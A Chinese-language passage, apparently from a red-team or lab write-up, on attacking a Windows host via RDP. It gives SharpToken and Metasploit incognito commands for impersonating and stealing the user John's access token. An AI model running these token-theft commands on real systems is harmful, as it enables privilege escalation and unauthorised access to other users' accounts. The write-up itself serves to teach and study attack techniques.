 `Tsclient`是通过远程桌面连接到远程计算机时，在远程计算机“网上邻居”中出现的一个机器名，实际为远程计算机分配给本机的名称。针对`RDP`协议的攻击手法可以看看[红蓝对抗中RDP协议的利用](https://www.geekby.site/2021/01/%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E4%B8%ADrdp%E5%8D%8F%E8%AE%AE%E7%9A%84%E5%88%A9%E7%94%A8)

尝试模拟`John`用户的令牌，利用工具[SharpToken](https://github.com/BeichenDream/SharpToken)，这里还需要安装一下`.NET Framework 3.5`，但是最后依旧还是执行了没反应。

![](./images/7.png)

```bash
SharpToken.exe execute "WIN-WEB\John" cmd true
```

尝试`MSF`的模块`incognito`未成功，但是可以窃取指定进程，这里窃取`John`用户的进程。

```bash
# 加载incognito
load incognito
# 列举token
list_tokens -u

# 窃取指定进程
steal_token pid
# 返回之前的token
rev2self
```
